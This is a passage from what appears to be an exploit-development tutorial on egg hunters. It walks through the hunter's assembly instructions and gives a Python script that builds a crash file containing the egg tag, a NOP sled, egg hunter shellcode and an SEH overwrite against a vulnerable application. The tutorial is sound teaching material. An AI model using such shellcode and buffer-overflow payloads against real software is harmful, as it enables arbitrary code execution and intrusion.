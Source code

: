 `CMP DWORD PTR DS:[EDI], EAX`: Compare the `DWORD` pointed to by the `EDI` register to the value held in the `EAX` register. If the result is true (the values are the same) then the zero flag is set in the `EFLAGS` register. This is the second check and ensures that the EGG found is repeated. 
`JNE 0xF7`: Jumps backwards 8 bytes to the `INC EDI` instruction if the zero flag is not set in the `EFLAGS` registers.
`JMP EDI`: If neither of the `JNE` instructions activated it is because the EGG was found twice in memory directly next to each other and as such a jump is now take to the location where they were found.

The instructions above mean that regardless where our payload is in memory provided a lower address is moved into EDI (we used EBP in this instance but any value lower that the payload starting address will work) execution will be redirected to our payload.

## Finishing the Exploit
Now that we have our SEH jumps in place and we have created our Egg Hunter we can run the exploit again and ensure that execution is redirected to the location of our egg. We will replace the A’s our initial padding with 0x90’s and append our egg (“ERCD”) to the start of our payload for the egg hunter to find. Our exploit code should now look something like this:
```
f = open("crash-7.txt", "wb")  
  
padding = b"ERCDERCD" #Tag the egg hunter will search for  
padding += b"\x90" * 500  
	  
egghunter  = b"\x8B\xFD"                # mov edi,ebp  
egghunter += b"\xB8\x45\x52\x43\x44"    # mov eax,45525344 ERCD                         
egghunter += b"\x47"                    # inc edi                                                                   
egghunter += b"\x39\x07"                # cmp dword ptr ds:[edi],eax                                    
egghunter += b"\x75\xFB"                # jne                               
egghunter += b"\x39\x07"                # cmp dword ptr ds:[edi],eax                                    
egghunter += b"\x75\xF7"                # jne          
egghunter += b"\xFF\xE7"                # jmp edi  
  
buf = padding + egghunter  
buf += b"B" * (620 - len(egghunter + padding))   
buf += b"\x90\x90\xEB\x80"  
buf += b"\x86\x1e\x40" #00401e86  
  
f.write(buf)  
f.close()
```

When we inject this new payload into our vulnerable application and step through our breakpoints we can see that execution is redirected to our egg.

<p align="center"><img src="/images/basics-of-exploit-development-3-egg-hunters/Landing-at-egg.PNG"/></p>    
<p align="center"><i>Landing at the Egg (0x45524344).</i></p>
